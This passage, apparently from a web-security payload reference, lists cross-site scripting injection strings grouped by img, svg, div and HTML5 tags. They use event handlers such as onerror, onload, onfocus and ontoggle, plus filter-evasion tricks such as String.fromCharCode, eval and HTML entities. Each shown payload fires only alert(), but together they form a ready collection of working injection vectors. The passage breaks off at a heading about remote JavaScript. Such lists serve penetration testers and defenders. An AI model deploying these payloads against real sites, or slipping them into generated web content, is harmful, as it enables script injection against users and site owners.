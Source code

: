 ```javascript
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>
"><img src=# onerror=alert("1")>/#

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
</div></font><script>hello</script>
<div onmouseover="alert('XSS')">test</div>
```

### XSS using HTML5 tags

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS
